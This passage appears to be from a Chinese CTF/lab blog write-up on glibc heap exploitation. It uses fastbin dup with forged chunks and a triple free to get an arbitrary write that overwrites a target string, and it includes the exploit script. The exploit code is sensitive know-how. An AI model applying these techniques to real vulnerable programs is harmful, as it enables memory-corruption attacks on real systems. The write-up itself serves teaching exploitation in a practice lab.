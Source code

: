 ```
free(a)
free(b)
free(a)

```

在这个例子中因为每次想要得到一个指针，都需要`malloc`一次，并通过溢出 name 修改指针

所以`free`三次就需要`malloc`三次

这三个指针都指向我们伪造的 chunk 中

![](https://static.hack1s.fun/images/2021/11/17/image-20211118091456807.png)

这样在一个大小为 0x200 的 chunk 中伪造了两个 0x60 大小的 chunk

利用 [fastbin dup](https://hack1s.fun/2021/04/01/heaplab-fastbin_dup进阶/) 的方法`free`三次之后可以看到 fastbin 形成了一个环

![](https://static.hack1s.fun/images/2021/11/17/image-20211118091711393.png)

接下来就是 [fastbin dup](https://hack1s.fun/2021/04/01/heaplab-fastbin_dup进阶/) 中使用的方法`malloc`四次，在我们目标的 target 附近申请一个 chunk

![](https://static.hack1s.fun/images/2021/11/17/image-20211118091900871.png)

完成之后 target 的字符串被修改为了`Much Win`

也就是说我们实现了一个任意地址写

```
age=0x61
name = b"A"*8

chunk_A = malloc(0x1f8, (p64(0)+p64(0x61)+p64(0)*10)*2, name)
chunk_B = malloc(0x68, b"Y"*0x18, name+p64(heap+0x20))
chunk_C = malloc(0x68, b"Y"*0x18, name+p64(heap+0x80))
chunk_D = malloc(0x68, b"Y"*0x18, name+p64(heap+0x20))

free(chunk_B)
free(chunk_C)
free(chunk_D)
#
malloc(0x58, p64(0x602010), name)
malloc(0x58, b'x'*18, name)
malloc(0x58, b'x'*18, name)
malloc(0x58, p64(0)*8 + b'Much Win', name)

```

但是这里存在一个问题，我们使用了 8 次`malloc`才实现这样一个效果

有没有更简单的方法呢？

不如来尝试一下直接在第一次 malloc 时就直接修改指针指向目标的 target 处
